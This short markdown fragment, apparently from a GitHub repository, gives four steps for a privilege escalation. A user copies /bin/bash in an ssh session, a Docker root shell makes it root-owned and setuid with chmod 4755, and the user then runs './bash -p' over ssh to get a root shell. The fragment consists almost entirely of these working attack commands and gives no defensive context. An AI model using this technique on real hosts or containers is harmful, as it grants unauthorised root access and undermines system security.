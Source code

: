 ### STEPS

#### 1) cp /bin/bash . (In a user ssh session) (That requires the ssh running internaly of the container)

#### 2) chown  root:root bash (In docker root shell)

#### 3) chmod 4755 bash

#### 4) SSH back in, then execute bash for root ./bash -p (user ssh session)
